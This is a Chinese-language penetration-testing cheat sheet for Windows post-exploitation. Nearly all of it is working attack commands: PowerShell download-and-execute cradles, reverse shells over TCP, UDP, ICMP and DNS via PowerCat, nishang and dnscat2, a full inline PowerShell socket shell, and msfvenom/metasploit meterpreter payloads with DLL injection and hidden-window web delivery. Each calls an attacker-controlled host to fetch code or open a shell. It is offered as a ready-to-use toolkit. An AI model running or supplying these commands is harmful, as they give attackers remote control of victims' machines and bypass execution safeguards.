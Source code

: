 <!-- TOC -->

- [下载文件](#下载文件)
- [开启Web](#开启web)
    - [python](#python)
- [远程连接](#远程连接)
- [Powershell](#powershell)
- [反弹Shell](#反弹shell)
    - [Powershell](#powershell-1)
        - [PowerCat](#powercat)
        - [nishang反弹shell](#nishang反弹shell)
        - [Reverse TCP shell](#reverse-tcp-shell)
        - [Reverse UDP shell](#reverse-udp-shell)
        - [Reverse ICMP shell](#reverse-icmp-shell)
        - [自定义powershell函数反弹shell](#自定义powershell函数反弹shell)
        - [dnscat2 反弹DNS shell](#dnscat2-反弹dns-shell)
        - [PowerSploit DLL注入反弹shell](#powersploit-dll注入反弹shell)
        - [metasploit反弹shell](#metasploit反弹shell)
- [内网扫描](#内网扫描)
    - [Powershell](#powershell-2)

<!-- /TOC -->
# 下载文件
```

bitsadmin /transfer myDownLoadJob /download /priority normal "https://raw.githubusercontent.com/samratashok/nishang/bfeabd2e043dfef6392e8a930eb1d7a04392af36/Shells/Invoke-PoshRatHttps.ps1" "F:\test.ps1"

powershell "IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/samratashok/nishang/bfeabd2e043dfef6392e8a930eb1d7a04392af36/Shells/Invoke-PoshRatHttps.ps1','test.ps1')"

```

# 开启Web
## python
```
python -m SimpleHTTPServer 80
```
powershell "IEX (New-Object System.Net.WebClient).DownloadFile('http://192.168.52.134/11.py','test.py')"

# 远程连接
```
Invoke-PowerShellWmi -ComputerName domainpc -UserName aaa\domainuser
psexec
wmic
wmicexec

```
# Powershell

# 反弹Shell
## Powershell
```
PowerShell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File d:\Invoke-PowerShellUdp.ps1

IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
### PowerCat
```
开启监听：
nc -lvp 6666
或者使用powercat监听
powercat -l -p 6666

目标机反弹cmd shell： 
powershell IEX (New-Object System.Net.Webclient).DownloadString ('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.159.134 -p 6666 -e cmd

```
### nishang反弹shell 
### Reverse TCP shell 
```
开启监听：
nc -lvp 6666

目标机执行：

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.159.134 -port 6666
```

###  Reverse UDP shell 
```
开启监听：
nc -lvup 53

目标机执行： 
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellUdp.ps1'); Invoke-PowerShellUdp -Reverse -IPAddress 192.168.159.134 -port 53
```

###  Reverse ICMP shell 
```
需要利用icmpsh_m.py (https://github.com/inquisb/icmpsh)和nishang中的Invoke-PowerShellIcmp.ps1 来反弹ICMP shell。 
首先攻击端下载icmpsh_m.py文件

icmpsh_m.py Usage： python icmpsh_m.py [Attacker IP] [Victim IP]
攻击者(192.168.159.134)执行： 
sysctl -w net.ipv4.icmp_echo_ignore_all=1 #忽略所有icmp包 python icmpsh_m.py 192.168.159.134 192.168.159.138 #开启监听

目标机(192.168.159.138)执行： 
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp -IPAddress 192.168.159.134
```

###  自定义powershell函数反弹shell 
```
利用powershell创建一个Net.Sockets.TCPClient对象，通过Socket反弹tcp shell，其实也是借鉴nishang中的Invoke-PowerShellTcpOneLine.ps1

攻击者(192.168.159.134) 开启监听：
nc -lvp 6666

目标机执行： 
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.52.134',6666);$stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### dnscat2 反弹DNS shell 
```
开启监听：
ruby dnscat2.rb --dns "domain=lltest.com,host=192.168.52.134" --no-cache -e open
-e open 不使用加密连接，默认使用加密

目标机执行：
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain lltest.com -DNSServer 192.168.52.134
```
### PowerSploit DLL注入反弹shell 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.159.134 lport=6667 -f dll -o /var/www/html/PowerSploit/lltest.dll
use exploit/multi/handler set PAYLOAD windows/x64/meterpreter/reverse_tcp set LHOST 192.168.159.134 set LPORT 6667 exploit
Get-Process #选择要注入的进程 
powershell IEX (New-Object Net.WebClient).DownloadString("http://192.168.159.134/PowerSploit/CodeExecution/Invoke-DllInjection.ps1") Invoke-DllInjection -ProcessID 5816 -Dll C:UsersAdministratorDesktoplltest.dll

```
###  metasploit反弹shell 
```
use exploit/multi/script/web_delivery set PAYLOAD windows/meterpreter/reverse_tcp set target 2 set LHOST 192.168.159.134 set LPORT 6666
exploit
目标机执行：
powershell.exe -nop -w hidden -c $f=new-object net.webclient;$f.proxy=[Net.WebRequest]::GetSystemWebProxy(); $f.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $f.downloadstring('http://192.168.159.134:8080/4iNSwaMtwWjm');
```

# 内网扫描
## Powershell
```
a) 调用invoke-Portscan扫描内网主机的端口。

b) 调用Get-HttpStatus扫描目标站点的目录。

c) 调用Invoke-ReverseDnsLookup扫描内网主机的ip对应的主机名。
Invoke-ReverseDnsLookup '192.168.3.20-192.168.3.24'
```